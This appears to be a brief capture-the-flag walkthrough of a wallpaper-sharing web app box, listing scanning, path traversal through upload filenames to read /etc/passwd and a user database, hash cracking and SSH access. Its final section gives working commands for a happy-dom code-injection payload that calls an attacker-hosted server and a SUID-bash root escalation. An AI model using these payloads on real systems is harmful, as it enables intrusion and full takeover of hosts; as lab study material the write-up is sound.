 ![image](https://github.com/user-attachments/assets/6fd011d2-f6c0-40bf-a471-1d0849b399eb)
![image](https://github.com/user-attachments/assets/9aadc7bf-4245-4bfd-9720-3826fc7e5664)
![image](https://github.com/user-attachments/assets/192bcd4a-d025-4d96-9011-94bfc04cbcba)
![image](https://github.com/user-attachments/assets/3efb3c54-85f2-45a1-96e2-55e25512a0a6)
![image](https://github.com/user-attachments/assets/7893e263-2199-489f-b364-524080922b96)
![image](https://github.com/user-attachments/assets/b9ee0178-75f2-487a-bb53-47366f7f4201)
![image](https://github.com/user-attachments/assets/e036b820-36c4-46da-9db0-602c341aff30)
![image](https://github.com/user-attachments/assets/66c8329a-a85c-4bb8-9292-291caab4fc6a)
![image](https://github.com/user-attachments/assets/33a075f4-2f45-4c45-9d96-f68476b0785c)
![image](https://github.com/user-attachments/assets/7e54e69b-f765-45c7-b635-2e747fd0ecac)
![image](https://github.com/user-attachments/assets/a23f532f-53ed-4f8d-8388-84bb4f89e261)
![image](https://github.com/user-attachments/assets/10d9e10d-e051-4cfc-9372-0f7ac5c6fc09)
![image](https://github.com/user-attachments/assets/840d873b-9254-466c-8880-85ed2007a5ee)
![image](https://github.com/user-attachments/assets/bd4a1a27-b6dd-4c21-9619-6dcafbee23f3)
![image](https://github.com/user-attachments/assets/396a884b-0005-44fd-a824-f00c9cb9d354)
![image](https://github.com/user-attachments/assets/4cf64d05-bb9f-495e-a5c1-f6bd5923f631)
![image](https://github.com/user-attachments/assets/1dc29cc2-819c-476c-9643-1f5763ee0dcf)
![image](https://github.com/user-attachments/assets/a1275058-e247-492e-b4f5-a226df2330db)
![image](https://github.com/user-attachments/assets/56c9a26a-3cdf-4ce7-a750-7db2cc0d17c6)
![image](https://github.com/user-attachments/assets/c7d58509-e246-4bbf-9ad7-03513745c225)
![image](https://github.com/user-attachments/assets/d8161a49-2fdd-402a-8596-cacbc3a08f38)
![image](https://github.com/user-attachments/assets/b62dab58-7931-49a9-9764-fa3b66859732)
![image](https://github.com/user-attachments/assets/0f9070e2-1c7f-4013-9c1a-fe42c364e82f)
![image](https://github.com/user-attachments/assets/e7239213-0165-431e-9860-d43a623469cd)


1. nmap --> port 22, 80 open

2. brue force directory --> no entry point

3. nmap again --> port 5000 open

4. Exploit-DB 43905.py and exploit from GitHub not work

5. register and log in --> upload THM.jpg & test.txt via "Upload Wallpaper" --> can view & download in "My uploads" and "Explore Gallery"
   --> App not sanitize filenames and accept arbituary inputs.

6. intercept download request by Burp Suite --> change to-be-downloaded file to ../../../../../../../../../../../etc/passwd  --> not work

7. intercept upload request, change filename to ../../../../../../../../etc/passwd --> send request

8. My uploads --> download --> open file --> /etc/passwd list contain user wp_hub:x:1001:1001::/home/wp_hub:/bin/bash

9. change upload filename to ../../../../../../../../home/wp_hub/wallpaper_hub/database.db --> send request

10. My uploads --> downdload --> file command to confirm database downloaded

11. check database, get password hash --> crack

12. SSH into machine --> get local.txt

13. sudo -l --> (root) NOPASSWD: /usr/bin/web-scraper /root/web_src_downloaded/*.html  --> web-scraper import "happy-dom"

14. exploit Happy-Dom:
    ```bash
    1. echo "chmod 4777 /bin/bash" > /tmp/shell
    2. chmod +x /tmp/shell
    3. echo "`<script src=\"http://192.168.45.165:5000/'+require('child_process').execSync('/tmp/shell')+'\"></script>`" > /tmp/shell.html
    4. Kali open web sever: python -m http.server 5000
    5. sudo -u root /usr/bin/web-scraper /root/web_src_downloaded/../../../../../../tmp/shell.html
    6. check /bin/bash now has SUID set: ls -lah /bin/bash
    7. GTFOBins bash PE to root
    ```
